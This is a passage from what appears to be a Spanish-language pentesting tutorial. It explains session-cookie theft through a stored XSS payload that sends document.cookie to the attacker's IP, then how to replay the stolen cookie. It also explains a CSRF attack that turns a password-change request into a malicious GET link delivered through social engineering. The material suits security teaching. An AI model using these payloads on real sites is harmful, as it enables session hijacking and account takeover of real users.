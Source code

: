 ## Cookie Hijacking

Claro, con esto podemos hacer que al ver el mensaje `nos mande la coockie de sesion del usuario` que ha visto el mensaje.

Primero tenemos que crear un `servidor http` al que `nos lleguen las cookies`:

```
> python -m SimpleHTTPServer 443
```

Ahora escriviremos en un sitio donde sepamos que lo van a `ver otras personas` (o si queremos robarle `a una persona en específico` pues podemos hacer mediante `ingenieria social` que mire ese sitio web). Con el siguiente código lo que pasará es que los usuarios `veran una foto como con un error` de que no se ha podido encontrar, pero por detras `nos estará mandando la cookie de sesión` de cada usuario que lo vea:

```
<script>document.write('<img src="<http://{mi ip}:{443}/pentesting.jpg?cookie=' + document.cookie + '>">') </script>

```

Ahora la idea es que sin estar autenticado, con la extension de google `Edit this cookie` podremos `cambiarnos la cookie` por la que se nos muestre en el servidor http de la consola y pues se nos `cambiaria la sesión a la del propietario de la cookie capturada`.

<a id="6"></a>
# CSRF (Cross Site Request Forgery)

Consiste en que cuando un usuario acceda a una web desde una `url` que mediante `ingenieria social` se le hace clicar, se apliquen `cambios para esa cuenta`. Es decir, que clicando en una url que le mandemos se le cambie la contraseña a la que nosotros queramos.

Primero tendremos que `capturar una petición` con burpsuite, en un directorio donde puedas `logearte` (osea, meter user y password).

Al loguearte tienes que `interceptar` con burpsuit la petición que se manda por `POST`, y nosotros lo que intentaremos es que se mande por `GET`, hacemos `Control + R` para mandarlo al repeater, hacemos `click derecho` y le damos a `change request method` para que se ponga como `GET`, entonces ahora la información esta viajando `en la propia url como parametro`, entonces si le damos a `Go` y `funciona` con GET igual que funcionaba con POST, osea que ponga password updated seria `vulnerable`, y eso es muy peligroso, así que si `mandamos la url a alguien` con un `acortador de link` y usamos `ingenieria social` para que alguien se meta podriamos cambiarlo la contraseña a la víctima.

`IMPORTANTE` aclarar que al conseguir la url maliciosa en burpsuite nos saldrá algo parecido a lo siguiente:

```
/change_pass.php?password=hola123&confirm_password=hola123&submit=submit 
```

Entonces copiamos eso y `lo añadimos a la url` (sin directorios adicionales) osea:

```
http://hacked.com/{la url maliciosa que hemos conseguido en burpsuit}

http://hacked.com/change_pass.php?password=hola123&confirm_password=hola123&submit=submit 
```
